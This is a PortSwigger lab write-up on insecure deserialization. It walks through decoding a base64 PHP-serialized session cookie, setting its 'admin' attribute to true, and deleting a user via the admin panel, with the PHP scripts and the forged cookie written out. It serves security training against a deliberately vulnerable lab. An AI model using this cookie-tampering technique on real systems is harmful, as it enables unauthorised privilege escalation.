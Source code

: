 # Modifying serialized objects

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow), you'll learn: Modifying serialized objects! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035303.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035322.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035339.png)

**When we successfully logged in, a new session cookie has been set:**

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=
```

As you can see, the last character is `=`, which is a padding character in base64!

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

**As you can see, the decoded base64 string is a serialized PHP object!**

Let's break it down:

- `O:4:"User"` means there is an `User` object, and it's length is 4 characters long
- `2` means there are 2 attributes:
    - `s:8:"username"` means the **first attribute** is called `username`, and it's length is 8 characters long
        - `s:6:"wiener"` means `username` attribute value is `wiener`, and it's length is 6 characters long
    - `s:5:"admin"` means the **second attribute** is called `admin`, and it's length is 5 characters long
        - `b:0` means the `admin` attribute value is boolean value `0` (`false`)

**Armed with above information, we can write a PHP code to serialize and deserialize that PHP object:**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(false)
}
```

**Now, to gain administrator privilege, we can just change the `admin` attribute to `true` (`1`):**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($deserializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php 
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(true)
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```

**Let's change the session cookie with our newly created PHP serialized object in base64 encoded:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041522.png)

**Then refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041536.png)

We can access to the admin panel!

Let's delete user `carlos`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041556.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041607.png)

# What we've learned:

1. Modifying serialized objects